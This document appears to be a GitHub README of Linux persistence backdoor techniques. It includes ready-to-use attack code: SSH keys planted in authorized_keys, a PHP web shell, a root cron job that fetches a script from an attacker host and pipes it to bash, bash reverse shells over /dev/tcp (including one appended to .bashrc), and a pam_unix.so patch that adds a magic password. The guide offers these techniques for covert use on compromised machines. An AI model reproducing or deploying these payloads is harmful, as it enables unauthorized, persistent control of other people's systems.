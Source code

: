 # Linux Backd00rs!
## @Author : M3tr1c_r00t

### 1). We can use SSH-keys...
I know your gonna say that ssh-keys aren't backdoors.
But there is one thing you should note, you can login into ssh with a pty spawn, therefore, you can be a little bit more sneaky.
#### generating ssh-keys
```
ssh-keygen -f <FILE_NAME>
```
-f - saves the ssh -key in the current directory in the name that you will assign it.
After running the command, you are going to be asked to enter a password...
If you dont want to encrypt your ssh-keys, just press enter twice.

This is going to generate 2 files, the ssh private key and the public key.
You are going to be needed to add the ssh-public key into the user's .ssh directory.
If in that directory there is a file, "authorized_keys", you can copy the contents of your public key into that file.
After that, we can login to the system using ssh.
```
ssh User@IP -i PRIVATE_SSH_KEY
```
To login without a pty shell;
```
ssh User@IP -i PRIVATE_SSH_KEY -T
```
If the directory .ssh is not present, you can always create it.
NB./ This may not work if your user isnt permitted to use ssh -keys.

Plus, if you get an RSA private key, before using it, remember to give it the appropriate read permissions.
```
chmod 400 PRIVATE_RSA_KEY
```
But it isnt a must to do this on the files generated using ssh-keygen as it does this automatically.

### 2). PHP Backdoors...
We can add this in the web root directory which is usually located at /var/www/html
With that info, you can add any php malicious code in that directory and save it as a .php file...
Example code;
```
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```
You can also use the php reverse shell script.
You can also add the malicious code in between the files such as the index.php file which is a lot sneaky.

### 3). Cron Jobs...
If you want to view the cron job;
```
cat /etc/crontab
```
This represents all the tasks that are scheduled to run at some time on your machine.

well, we can add a cronjob to be sending us a reverse shell every minute...
```
* *     * * *   root    curl http://YOUR_IP:PORT/shell | bash
```
This is going to run this script after every minute,hour,day,etc.
We can add this to be into the shell file contents...
```
#!/bin/bash
bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1
```
For this to work, we need to have set up our http.server so that the script will be able to get the file.
We also need to have set up our listener.

NB: You need to be the root user so as to be able to edit the /etc/crontab file.

### 4). [.bashrc] Backdoors....
If a user has bash as their login shell, the ".bashrc" file in their home directory is executed when an interactive session is launched.
Well, we can add this payload into the .bashrc file;
```
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc
```
This is going to send us a reverse shell anytime the user logs into the machine.

### 5). pam_unix.so Backdoors...
the file "pam_unix.so" is one of many files in Linux that is responsible for authentication.
![image](https://user-images.githubusercontent.com/99975622/216675465-afedd319-5b0f-4c22-9b80-78edf00892d5.png)
the file "pam_unix.so" uses the "unix_verify_password" function to verify to user's supplied password.

![image](https://user-images.githubusercontent.com/99975622/216675592-7d2be4ee-b567-440e-bbe1-3d42730ad611.png)
We can modify the file as above...

Say a user types the password "password123" and tries to authenticate. We will compare his password(password123) to the string "0xMitsurugi".

If those two strings match, the authentication is successful. But those 2 strings do not match, so the authentication will not be

successful and will rely on the "unix_verify_password" function. When using the "unix_verify_password" function to authenticate, the function takes the user's password from "/etc/shadow" and compares it to the user's supplied password. This is how the intended authentication system should work. 

### Resources...
For more methods...
```
https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c
```


## My socials:
<br>@ twitter: https://twitter.com/M3tr1c_root
<br>@ instagram: https://instagram.com/m3tr1c_r00t/
